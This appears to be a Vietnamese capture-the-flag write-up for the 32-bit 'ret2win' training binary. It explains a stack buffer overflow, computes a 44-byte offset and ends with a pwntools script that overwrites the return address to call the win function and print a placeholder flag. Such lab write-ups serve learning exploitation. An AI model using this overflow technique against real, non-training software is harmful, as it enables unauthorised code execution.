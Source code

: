 **1. Tìm lỗi**

Chạy thử file bằng IDA ta có như sau: 

![main.png](photo/main.png)

Source hàm pwnme:

![pwnme.png](photo/pwnme.png)

Ta thấy chương trình chạy không thể lấy flag được nhưng phát hiện thêm được hàm ret2win có source như sau:

![ret2win.png](photo/ret2win.png)

Ta thấy ở hàm này thì có thể lấy được nội dung của flag

Dùng lệnh 'checksec' để kiểm tra có lỗi bof không.

![checksec.png](photo/checksec.png)

Ta thấy CANARY đang ở trạng thái disabled -> có thể khai thác qua lỗi bof

**2. Ý tưởng**

Biến s cho nhập 0x38 = 56 phần tử nên thử nhập tràn biến s đến ret rồi chèn địa chỉ hàm ret2win vào

**3. Viết script**

![s.png](photo/s.png)

Địa chỉ biến s hiện tại là: rbp - 0x28 -> Khoảng cách từ biến s đến ret là: 0x28 + 0x4 = 44

![add.png](photo/add.png)

Địa chỉ hàm win là: 0x804862c

Ta có script như sau:

```
from pwn import *

r = process("./ret2win32")

ret2win = 0x804862c
payload = b'a'*44 + p32(ret2win)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

![add.png](photo/add.png)

Flag: ROPE{a_placeholder_32byte_flag!}